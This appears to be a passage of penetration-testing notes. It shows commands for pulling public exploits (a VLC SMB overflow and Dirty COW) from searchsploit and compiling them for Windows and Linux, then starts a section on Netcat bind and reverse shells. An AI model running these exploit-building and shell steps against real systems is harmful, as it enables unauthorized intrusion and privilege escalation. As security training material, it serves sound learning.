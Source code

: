 To compile C code into Windows executable, you need `minwg-w64` and `gcc` dependencies.

```bash
# windows
kali@kali> sudo apt-get install mingw-w64 -y
kali@kali> sudo apt-get install gcc -y
kali@kali> searchsploit video lan smb
kali@kali> searchsploit -m 9303

kali@kali> i686-w64-mingw32-gcc 9303.c -o exploit           # x64
kali@kali> i686-w64-mingw32-gcc 9303.c -o exploit -lws2_32  # x32
```

```bash
# linux
kali@kali> searchsploit dirty cow
kali@kali> searchsploit -m 40839

kali@kali> gcc -pthread 40839.c -o exploit -lcrypt
```

### Bind and reverse shells

#### Netcat

* Netcat (Aka TCP/IP Swiss Army Knife) is a networking utility used to read and write data to network connections using TCP or UDP.
* Netcat is available for both \*NIX and Windows operating systems, consequently making it extremely useful for cross-platform engagements.
* Netcat utilizes a client-server communication architecture with 2 modes :
  * Client mode : Netcat can be used in client mode to connect to any TCP/UDP port as well as Netcat listener (server).
  * Server mode : Netcat can be used to listen for connections from clients on a specific port.
*   Netcat can be used by penetration testers to perform the following functionality :

    * Banner grabbing
    * Port scanning
    * Transferring files
    * Bind/reverse shells

    **Linux**

    | Command             | Description                                   |
    | ------------------- | --------------------------------------------- |
    | `nc -n`             | Deactivate host name resolution.              |
    | `nc -v`             | Increase verbose.                             |
    | `nc 10.3.19.249 80` | Connect Netcat to `10.3.19.249` on port `80`. |

    **Windows**

    ```bash
    kali@kali> cd /usr/share/windows-binaries
    kali@kali> python -m SimpleHTTPServer 80
    ```
